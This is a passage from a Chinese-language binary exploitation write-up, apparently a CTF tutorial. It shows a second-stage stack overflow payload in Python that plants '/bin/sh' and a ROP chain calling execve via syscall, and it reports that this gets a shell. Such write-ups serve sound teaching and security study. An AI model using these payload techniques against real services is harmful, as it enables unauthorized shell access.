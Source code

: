 那么第二轮的 payload 我们只需要考虑两部分内容即可

*   留下`/bin/sh`字符串
*   在 read 的 ret 地址处留下构造好的 ROP 链

第二次溢出 payload 构造如下：

```bash
payload = b'/bin/sh\x00'
payload += p64(0)*6
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_rbx)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(0x3b)
payload += p64(syscall)
```

可以看到在调用`read()`返回时，地址变为了刚刚读入的 ROP 链，最终成功 getshell.

[![](assets/1701606727-54d5e43594ef34cc6fe2b643ea1f8a3e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107164907-83214018-7d4a-1.png)

[![](assets/1701606727-b03ce0ff5f8d410bda7598270881fc75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107164916-886b7ade-7d4a-1.png)
